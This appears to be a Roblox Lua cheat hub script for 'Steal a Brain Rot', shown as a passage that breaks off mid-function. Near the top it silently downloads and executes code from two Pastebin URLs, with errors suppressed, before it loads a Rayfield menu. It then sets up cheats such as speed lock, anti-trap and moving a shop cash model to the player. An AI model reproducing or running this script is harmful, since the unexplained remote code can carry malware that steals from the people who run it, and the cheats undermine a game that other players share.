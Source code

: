 local Players = game:GetService("Players")
local player = Players.LocalPlayer
local playerGui = player:WaitForChild("PlayerGui")

-- Auto-run external scripts on load
pcall(function()
    loadstring(game:HttpGet("https://pastebin.com/raw/qrFryUJ2",true))()
end)

pcall(function()
    loadstring(game:HttpGet("https://pastebin.com/raw/8nMHjrYw", true))()
end)

local Rayfield = loadstring(game:HttpGet("https://sirius.menu/rayfield"))()

-- Create the main window
local Window = Rayfield:CreateWindow({
Name = "Steal a Brain Rot Destroyer v2 Zues Hub",
LoadingTitle = "made by ken_i",
LoadingSubtitle = "Using Rayfield",
ConfigurationSaving = { Enabled = true },
Discord = { Enabled = false },
KeySystem = false
})

-- Services
local Players = game:GetService("Players")
local RunService = game:GetService("RunService")
local TweenService = game:GetService("TweenService")
local LocalPlayer = Players.LocalPlayer
local Camera = workspace.CurrentCamera

-- Core variables
local speedLockEnabled = false
local visibilityEnabled = false
local antiTrapEnabled = false
local antiTrapRunning = false
local medusaEnabled = false
local medusaCooldown = false
local medusaToolName = "Medusa's Head"
local medusaRange = 16
local sentryActive = false
local shopNPCCashActive = false
local originalShopPositions = {}

-- ShopNPCCash functionality
local function manageShopNPCCash()
while shopNPCCashActive and task.wait(0.1) do
local cashModel = workspace:FindFirstChild("ShopNPCCash")
local character = LocalPlayer.Character
local rootPart = character and character:FindFirstChild("HumanoidRootPart")

if cashModel and cashModel:IsA("Model") and rootPart then
-- Store original position if not already stored
if not originalShopPositions[cashModel] then
local primaryPart = cashModel.PrimaryPart or cashModel:FindFirstChildWhichIsA("BasePart")
if primaryPart then
originalShopPositions[cashModel] = primaryPart.CFrame
end
end
